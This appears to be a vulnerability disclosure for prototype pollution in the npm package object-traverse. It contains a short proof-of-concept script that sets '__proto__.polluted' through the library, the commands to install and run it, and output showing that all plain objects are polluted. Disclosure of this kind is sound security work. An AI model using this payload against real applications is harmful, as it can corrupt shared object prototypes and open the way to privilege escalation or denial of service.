# Description

Prototype Pollution in object-traverse

# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var objectTraverse = require("object-traverse")
var obj = {}
console.log("Before : " + {}.polluted);
objectTraverse(obj).set("__proto__.polluted","Yes! Its Polluted");
console.log("After : " + {}.polluted);
```

2. Execute the following commands in terminal:

```
npm i object-traverse # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
